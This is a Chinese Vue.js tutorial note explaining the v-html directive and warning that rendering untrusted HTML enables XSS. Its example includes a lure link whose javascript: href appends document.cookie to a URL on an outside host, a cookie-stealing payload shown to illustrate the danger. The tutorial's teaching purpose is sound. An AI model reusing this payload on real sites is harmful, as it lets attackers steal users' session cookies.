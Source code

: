 ![image-20230418222428231](./assets/image-20230418222428231.png)

### v-html 指令

- 作用：向指定节点中渲染包含 `html` 结构的内容
- 与插值语法的区别：
  - `v-html` 会替换掉节点中所有的内容，`{{xx}}` 则不会
  - `v-html` 可以识别 `html` 结构
- 严重注意 `v-html` 有安全性问题
  - 在网站上动态渲染任意 `html` 是非常危险的，容易导致 `XSS` 攻击
  - 一定要在可信的内容上使用 `v-html`，永远不要用在用户提交的内容上！！！

```vue
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<!-- 引入 Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```
